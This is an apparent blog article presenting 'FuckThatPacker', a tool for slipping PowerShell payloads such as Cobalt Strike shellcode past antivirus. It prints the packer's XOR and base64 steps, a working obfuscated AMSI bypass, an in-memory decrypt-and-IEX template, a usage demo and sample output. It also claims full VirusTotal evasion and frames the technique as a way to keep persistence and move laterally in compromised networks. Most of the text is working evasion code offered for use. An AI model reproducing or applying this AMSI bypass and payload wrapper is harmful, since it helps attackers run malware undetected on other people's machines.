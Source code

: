 ## Introduction

In the ever-evolving landscape of cybersecurity, understanding how to evade antivirus detection is crucial for both ethical hackers and security professionals. Our comprehensive guide delves into advanced techniques that allow you to bypass security measures and execute payloads without triggering alarms. Whether you’re conducting penetration testing or enhancing your defensive strategies, mastering these evasion methods is essential.

Throughout this article, we’ll explore real-world scenarios, practical examples, and expert insights. By the end, you’ll be equipped with the knowledge needed to navigate the delicate balance between offense and defense in the digital realm.

* * *

## How It Works?

After several types of research, it turns out that even by offending each of the lines of the Cobalt Strike base Resource Kit we are left with detected malware. The problem stems from the base64 shellcode which is analyzed by AMSI (Anti-Malware Scan Interface) which is mostly detected as a malicious script. **FuckThatPacker** therefore, assumes that if the malware is completely encrypted via an XOR and integrated into a "stub" allowing decryption in a memory coupled with a simple AMSI bypass then this will suffice to override antivirus.

Here is the detail of the code. The script will retrieve the contents of the load:

```html
with open(args.payload) as f:
    content = f.read()
```

The code will first be encoded using UTF16-LittleEndian since it is the encoding taken by Windows:

```html
print "[+] Encode UTF16-LE"
content = content.encode("utf-16")
```

Then be encrypted via a simple XOR with the digital key chosen by the user:

```html
print "[+] Cyphering Payload ..."
content = xor_payload(content,key)
```

Everything will finally be encoded in base64 to have only printable characters, before being integrated into the template supplied with the project:

```html
print "[+] Base64 Payload"
content = base64.b64encode(content)

print "[+] Writting into Template"
with open("template.txt") as f:
    template = f.read()

template = template.replace("%%DATA%%",content)
template = template.replace("%%KEY%%",str(key))
```

The idea behind using a template is to make the project malleable by the community. In this way, anyone can modify their template to have an offended load of their own. Besides, this makes it possible to avoid possible future signatures. Now let's take a quick look at the template:

```html
[Runtime.InteropServices.Marshal]::WriteInt32([Ref].Assembly.GetType(("{5}{2}{0}{1}{3}{6}{4}" -f 'ut',('oma'+'t'+'ion.'),'.A',('Ams'+'iUt'),'ls',('S'+'ystem.'+'Manage'+'men'+'t'),'i')).GetField(("{1}{2}{0}" -f ('Co'+'n'+'text'),('am'+'s'),'i'),[Reflection.BindingFlags]("{4}{2}{3}{0}{1}" -f('b'+'lic,Sta'+'ti'),'c','P','u',('N'+'on'))).GetValue($null),0x41414141)
$a = "%%DATA%%"
$b = [System.Convert]::FromBase64String($a)
for($x = 0; $x -lt $b.Count; $x++)
{
    $b[$x] = $b[$x] -bxor %%KEY%%
}
IEX ([System.Text.Encoding]::Unicode.GetString($b))
```

The first line of code is for the AMSI bypass. This line eliminates this feature and prevents Defender from decoding the encoded parts to try to find signatures. The variable "$a" will be assigned the encrypted part of our load, it will then be decoded in the variable "$b" then passed in a loop allowing us to decrypt the bytes of the load one by one. The `IEX` command (for Invoke-Expression) will simply allow the load to be executed in memory.

The help menu is pretty self-explanatory but here is a demonstration of how to use the tool:

```html
python FuckThatPacker.py -k 32 -p /root/payload.ps1 -o obfuscated.ps1

  ___        _   _____ _         _   ___         _
 | __|  _ __| |_|_   _| |_  __ _| |_| _ \__ _ __| |_____ _ _
 | _| || / _| / / | | | ' \/ _` |  _|  _/ _` / _| / / -_) '_|
 |_| \_,_\__|_\_\ |_| |_||_\__,_|\__|_| \__,_\__|_\_\___|_|


Written with <3 by Unknow101/inf0sec
v1.0[+] Encode UTF16-LE
[+] Cyphering Payload ...
[+] Base64 Payload
[+] Writting into Template
[+] Writting into obfuscated.ps1
```

As indicated on the last line, the encrypted payload is found in the "obfuscated.ps1" file if no output file is provided, the script will display it in stdout.

```html
cat obfuscated.ps1
[Runtime.InteropServices.Marshal]::WriteInt32([Ref].Assembly.GetType(("{5}{2}{0}{1}{3}{6}{4}" -f 'ut',('oma'+'t'+'ion.'),'.A',('Ams'+'iUt'),'ls',('S'+'ystem.'+'Manage'+'men'+'t'),'i')).GetField(("{1}{2}{0}" -f ('Co'+'n'+'text'),('am'+'s'),'i'),[Reflection.BindingFlags]("{4}{2}{3}{0}{1}" -f('b'+'lic,Sta'+'ti'),'c','P','u',('N'+'on'))).GetValue($null),0x41414141)
$a = "395zIE[...]ICog"
$b = [System.Convert]::FromBase64String($a)
for($x = 0; $x -lt $b.Count; $x++)
{
    $b[$x] = $b[$x] -bxor 32
}
IEX ([System.Text.Encoding]::Unicode.GetString($b))
```

* * *

## The Verdict

Having no personal [Virus Total](https://www.virustotal.com/) on hand, we had to use the original which unfortunately shares the samples with the suppliers. Despite everything, this makes it possible to put a numerical score and to judge the effectiveness of the tool since we obtain a perfect score.

* * *

## Conclusion

By mastering these evasion techniques, you’ll enhance your ability to maintain persistence and move laterally within compromised networks. Remember that responsible usage is essential, and this knowledge is intended for educational purposes only.